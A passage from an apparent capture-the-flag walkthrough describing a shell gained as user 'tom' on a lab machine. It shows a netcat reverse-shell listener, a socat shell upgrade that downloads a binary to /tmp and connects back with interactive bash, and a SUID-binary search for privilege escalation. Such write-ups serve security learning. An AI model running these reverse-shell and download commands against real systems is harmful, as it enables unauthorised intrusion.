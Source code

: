 - After a while, our `nc -lvnp 4444` listener was contacted and we obtained a shell as `tom`, allowing us to read the `user` flag!

  ![image-20250424080109512](https://i.imgur.com/alYSR9t.png)

- Upgrading the shell for convenience [[ref](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/)]

  ```bash
  # Listener (ahmed)
  socat file:`tty`,raw,echo=0 tcp-listen:4444
  
  # Victim (tom)
  ## 1. Download socat static binary to /tmp and give execute permissions
  wget -q https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat -O /tmp/socat; chmod +x /tmp/socat
  ## 2. Connect to our listener
  /tmp/socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:192.168.122.1:4444
  ```

  ![image-20250425234937316](https://i.imgur.com/FcVe3kn.png)

### 7. Privilege Escalation

#### 7.1. Exploring Attack Vectors

- First things first, let's search for SUID-enabled binaries in the system

  ```bash
  $ find / -perm -u=s -type f 2>/dev/null
  /usr/lib/eject/dmcrypt-get-device
  /usr/lib/snapd/snap-confine
  /usr/lib/dbus-1.0/dbus-daemon-launch-helper
  /usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
  /usr/lib/openssh/ssh-keysign
  /usr/lib/policykit-1/polkit-agent-helper-1
  /usr/local/bin/backup
  /usr/bin/chfn
  /usr/bin/at
  /usr/bin/gpasswd
  /usr/bin/newgidmap
  /usr/bin/chsh
  /usr/bin/sudo
  /usr/bin/pkexec
  /usr/bin/newgrp
  /usr/bin/passwd
  /usr/bin/newuidmap
  /bin/ping
  /bin/umount
  /bin/fusermount
  /bin/ping6
  /bin/ntfs-3g
  /bin/su
  /bin/mount
  ```
